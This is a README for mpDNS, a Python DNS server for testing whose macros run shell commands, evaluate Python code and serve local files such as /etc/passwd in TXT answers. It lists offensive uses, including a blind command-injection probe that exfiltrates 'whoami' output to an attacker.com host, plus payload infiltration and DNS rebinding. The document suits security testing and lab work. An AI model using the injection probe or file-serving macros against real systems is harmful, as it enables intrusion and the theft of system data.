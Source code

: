 mpDNS aka multi-purpose DNS Server
--------------------
Simple, configurable DNS Server with multiple useful features
- Python 3
- names.db -> holds all custom records (see examples)
- Simple wildcards like *.example.com
- Catch unicode dns requests
- Custom actions aka macro:
  - `{{shellexec::dig google.com +short}}` _-> Execute shell command and respond with result_
  - `{{eval::res = '1.1.1.%d' % random.randint(0,256)}}` _-> Evaluate your python code_
  - `{{file::/etc/passwd}}` _-> Respond with localfile contents_
  - `{{resolve}}` _-> Forward DNS request to local system DNS_
  - `{{resolve::example.com}}` _-> Resolve example.com instead of original record_
  - `{{echo}}` _-> Response back with peer address_
  - `{{shellexec::echo %PEER% %QUERY% %QUERYTYPE%}}` _-> Use of variables_
- See names.db.example for more

Heavily based on <https://github.com/circuits/circuits/blob/master/examples/dnsserver.py>

Quick Start
-----------
```
git clone https://github.com/nopernik/mpDNS
cd ./mpDNS
pip install -r requirements.txt
touch names.db
```
Now you're ready to fill your DNS records in **names.db** based on **names.db.example**

Usage: `./mpdns.py`
 - Create **names.db**. See names.db.example
 - Edit DNS records in **names.db** with `./mpdns.py -e` no restart required

Offensive and Defensive purposes:
-----------
1. You need a light-weight simple dns-server solution for testing purposes (NOT PRODUCTION!)
2. Test for various blind injection vulnerabilities in web applications _(ex. `/ping.php?ip=$(dig $(whoami).attacker.com)`)_
3. Easily infiltrate 65K of data in one `TXT` query
4. DNS Rebinding
5. Execute custom macro action on specific query (useful in malware-analysis lab environments)
6. And lots more. It is highly customizable.

Limitations
------------------
1. Due to UDP Datagram limit of 65535 bytes, DNS response is limited to approx ~65200 bytes\
this limitation applies to `TXT` records which are splitted into chunks of 256 bytes until response reaches maximum allowed 65200b\
therefore `TXT` record with macro `{{file:localfile.txt}}` is limited to 65200 bytes.
2. No support for nested wildcards **`test.*.example.com`**
3. No support for custom DNS server resolver in `{{resolve::example.com}}` macro
4. `TTL` always set to **0**

Examples
-----------
**names.db example:**
```
# Empty configuration will result in empty but valid responses
#
# Unicode domain names are not supported but still can be catched by the server.
# for example мама-сервер-unicode.google.com will be catched but with SERVFAIL response

passwd.example.com	TXT     {{file::/etc/passwd}}  #comments are ignored
shellexec			TXT     {{shellexec::whoami}}
eval				TXT     {{eval::import random; res = random.randint(1,500)}}
resolve1			A       {{resolve}}
resolve2			A       {{resolve::self}}      #same as previous
resolve3			A       {{resolve::example.com}}
blabla.com			A       5.5.5.5

*					A       127.0.0.1
*.example.com		A		7.7.7.7
c1.example.com		CNAME	c2.example.com
c2.example.com		CNAME	c3.example.com
c3.example.com		CNAME	google.example.com
google.example.com	CNAME	google.com
test.example.com	A		8.8.8.8
google.com			A		{{resolve::self}}
notgoogle.com		A		{{resolve::google.com}}
```

Example output with names.db example:
---------


**Regular resolution from DB**: `dig test.example.com @localhost`
```
;; ANSWER SECTION:
test.example.com.	0	IN	A	8.8.8.8
```
_mpDNS output:_ `- Request from 127.0.0.1:57698      -> test.example.com.	-> 8.8.8.8 (A)`

-----
**Recursive CNAME resolution**: `dig c1.example.com @localhost`

```
;; QUESTION SECTION:
;c1.example.com.			IN	A

;; ANSWER SECTION:
c1.example.com.		0	IN	CNAME	c2.example.com.
c2.example.com.		0	IN	CNAME	c3.example.com.
c3.example.com.		0	IN	CNAME	google.example.com.
google.example.com.	0	IN	CNAME	google.com.
google.com.		0	IN	A	216.58.206.14
```
_mpDNS output:_ 
```
- Request from 127.0.0.1:44120      -> c1.example.com.		-> c2.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c2.example.com		-> c3.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c3.example.com		-> google.example.com (CNAME)
- Request from 127.0.0.1:44120      -> google.example.com	-> google.com (CNAME)
- Request from 127.0.0.1:44120      -> google.com			-> {{resolve::self}} (A)
```

-----

**Wildcard resolution**: `dig not-in-db.com @localhost`

```
;; ANSWER SECTION:
not-in-db.com.		0	IN	A	127.0.0.1
```
_mpDNS output:_ `- Request from 127.0.0.1:38528      -> not-in-db.com.	-> 127.0.0.1 (A)`

-----
**Wildcard subdomain resolution**: `dig wildcard.example.com @localhost`

```
;; ANSWER SECTION:
wildcard.example.com.	0	IN	A	7.7.7.7
```
_mpDNS output:_ `- Request from 127.0.0.1:39691      -> wildcard.example.com.	-> 7.7.7.7 (A)`

-----
**Forward request macro**: `dig google.com @localhost`
```
;; ANSWER SECTION:
google.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:53487      -> google.com.	-> {{resolve::self}} (A)`

-----
**Forward request of custom domain macro**: `dig notgoogle.com @localhost`
```
;; ANSWER SECTION:
notgoogle.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:47797      -> notgoogle.com.	-> {{resolve::google.com}} (A)`

-----
**File contents macro via TXT query**: `dig txt passwd.example.com @localhost`
```
;; ANSWER SECTION:
passwd.example.com.	0	IN	TXT	"root:x:0:0:root:/root:/bin/bash\010daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\010bin:x:2:2:bin:......stripped"
```
_mpDNS output:_ `- Request from 127.0.0.1:38805      -> passwd.example.com.	-> ['root:x:0:0:root...(2808)'] (TXT)`

-----
**Custom python code macro via TXT query**: `dig txt eval @localhost`
```
;; ANSWER SECTION:
eval.			0	IN	TXT	"320"
```
_mpDNS output:_ `- Request from 127.0.0.1:33821      -> eval.	-> ['320'] (TXT)`

-----
**Shell command macro via TXT query**: `dig txt shellexec @localhost`
```
;; ANSWER SECTION:
shellexec.		0	IN	TXT	"root"
```
_mpDNS output:_ `- Request from 127.0.0.1:50262      -> shellexec.	-> ['root'] (TXT)`

-----

Have fun!
